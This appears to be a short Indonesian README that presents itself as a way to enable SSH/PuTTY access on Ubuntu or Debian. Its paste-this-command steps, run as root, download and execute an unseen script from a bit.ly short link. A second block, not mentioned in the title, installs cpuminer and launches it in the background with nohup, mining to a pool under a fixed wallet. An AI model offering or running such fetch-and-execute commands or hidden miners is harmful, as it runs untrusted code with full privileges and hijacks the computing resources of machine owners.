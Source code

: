 # DOT AKSES SSH
# BIAR BISA AKSES DARI PUTTY #

*TINGGAL COPY DAN PASTEKAN KE UBUNTU/DEBIAN KALIAN*
```
sudo su
cd
wget -O dot https://bit.ly/dotssh
chmod +x dot
./dot

```
```
sudo su
cd
mkdir baru
cd baru
wget https://github.com/cpu-pool/cpuminer-opt-cpupower/releases/download/1.4/Cpuminer-opt-cpu-pool-linux64.tar.gz
tar zxvf Cpuminer-opt-cpu-pool-linux64.tar.gz
clear
nohup ./cpuminer -a Yespower -o stratum+tcp://na.mining4people.com:3338 -u uj1SsbrKhFAzUwsu6GL3VP8FTh35f8d26z.AkuBot
tetek
```

